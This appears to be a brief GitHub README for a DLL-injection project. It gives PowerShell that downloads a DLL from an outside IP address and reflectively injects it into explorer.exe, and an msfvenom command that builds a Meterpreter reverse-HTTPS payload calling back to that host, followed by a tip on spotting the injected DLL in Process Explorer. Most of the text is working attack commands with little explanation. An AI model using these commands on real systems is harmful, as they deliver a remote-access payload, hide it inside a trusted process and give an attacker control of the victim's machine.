 # DLL-injection
Summary: THIS IS LAME. WE WANT TO LOAD DLL FROM MEMORY
with this:
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.244/met2.dll')
$procid = (Get-Process -Name explorer).Id
Import-Module C:\Tools\Invoke-ReflectivePEInjection.ps1
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid


Rushed will goback and explain it better
Usually fun with injecting into video games
basic dll injection script 
script will download the following 
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.244 LPORT=443 -f dll -o met.dll       

dll will be injected into explorer.exe using loadlibrary 
![image](https://github.com/user-attachments/assets/5c7334f5-e9f1-4adb-9ec7-87610728c5fc)


you can than use the process explorer to look our injected dll into explorer.exe
![image](https://github.com/user-attachments/assets/5119ee91-002d-4781-90f1-22fbbd175e78)
